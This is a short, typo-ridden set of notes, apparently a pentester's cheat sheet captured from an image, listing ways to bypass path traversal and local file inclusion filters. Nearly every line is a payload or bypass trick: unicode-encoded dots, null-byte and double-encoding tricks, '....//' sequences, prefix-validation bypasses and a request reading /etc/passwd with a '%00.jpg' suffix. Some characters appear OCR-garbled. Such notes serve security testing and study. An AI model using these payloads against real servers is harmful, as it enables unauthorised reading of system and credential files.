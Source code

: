 -> May be server is blocking `.` we can use UNICODE ENCODING likr Download.php?file=⊙/config.php or Download.php?file=⊙.config.php Download.php?file=⊡⊙/config.php.
-> NULL BYTE BYPASS ALSO like -> %00./config.php


Tip-> sometime server block traversal sequences like `../../` but if we give direct value like `?filename=/etc/passwd bypass

Tip -> Traversal sequence stripped non-recursively -> `....//....//....//`

Tip -> Double encode / tripe encode url

Tip -> Maybe sometimes server validate only start of path like `/var/www/images` this parts -> `/var/www/images/../../../../`

Tip -> /image?filename=../../../../../../etc/passwd%00.jpg -> when server validate by image jpg file extension

-> check for LFI in cookies

-> sometimes get method chceks for validation we can bypass by using POST method


